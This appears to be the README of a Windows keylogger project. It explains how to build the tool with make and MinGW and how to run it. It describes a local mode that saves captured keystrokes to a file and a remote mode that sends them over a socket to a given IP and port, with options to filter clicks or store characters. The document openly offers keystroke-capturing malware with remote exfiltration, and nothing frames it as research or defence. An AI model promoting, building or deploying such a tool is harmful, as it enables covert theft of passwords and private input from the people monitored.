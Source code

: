 BUILD AND RUN FOR WINDOWS ONLY

# Installation

run command make

# Dependencies

[MinGW](http://www.mingw.org) for g++ and command make

# Usage

This program propose 2 types of keylogger

## [REQUIERED] Parameters : Please, choose one of them

        -l | --local : local keylogger, store data into file on this computer, require 1 argument (destination path)
                Example : ./bin/main.exe -l D:\file.txt

        -r | --remote : remote keylogger, send data via socket, require 2 arguments (ip, port)
                Example : ./bin/main.exe -r 192.168.1.16 7777

## [OPTIONAL] Options

        -c | --no_click : don't store click keys (based on ascii)
                Example : ./bin/main.exe ... -c

        -a | --alphabet_only : Store alphabet only, A-z (based on ascii)
                Example : ./bin/main.exe ... -a

        -C | --store_character : Default store is int value, use this option if you want to store with character
                Example : ./bin/main.exe ... -C

        -h | --help : print this help
                Example : ./bin/main.exe -h

